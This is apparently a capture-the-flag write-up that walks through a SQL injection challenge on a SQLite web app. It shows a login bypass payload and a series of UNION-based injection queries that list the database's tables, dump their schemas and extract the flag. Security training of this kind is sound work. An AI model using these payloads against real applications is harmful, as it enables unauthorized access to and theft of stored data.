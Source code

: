 first we need to login. We can try a basic admin login and sql injection into the password.

```
username: admin
password: ' or 1=1 --
```
This lets us into the main welcome page. 

We can see it has a search bar, and 3 outputs, city, address, and phone. 

![img 1](./Images/sqli1.png)

If you try a union sql command, you notice that only queries with 3 column outputs will be displayed. So we can add filler to get what we want. 

```
' union select 0,1,2; --
```
![img 2](./Images/sqli2.png)


Since we know its using sqlite, we can use a command that would show the available tables.

```
tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'
```

but since we need it in a union, lets add it

```
' union select 0, 1, tbl_name FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%' --
```

![img 3](./Images/sqli3.png)


We can see 2 interesting tables, hints and more_table.

So lets try and see what is in the hints table.

```
' union select null,null,sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='hints'--
```

you get this, 

```
CREATE TABLE hints (id INTEGER NOT NULL PRIMARY KEY, info TEXT)
```

![img 4](./Images/sqli4.png)

So lets query that info column

```
' union select null,null,info from hints--
```


![img 5](./Images/sqli5.png)

You dont get much but we can do the same thing with the more_table table

```
' union select null,null,sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='more_table'--
```

![img 6](./Images/sqli6.png)

Alright lets query that flag column then

```
' union select null,null,flag from more_table--
```

![img 7](./Images/sqli7.png)

And theres the flag


used this as reference: https://www.exploit-db.com/docs/english/41397-injecting-sqlite-database-based-applications.pdf
https://github.com/payloadbox/sql-injection-payload-list
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md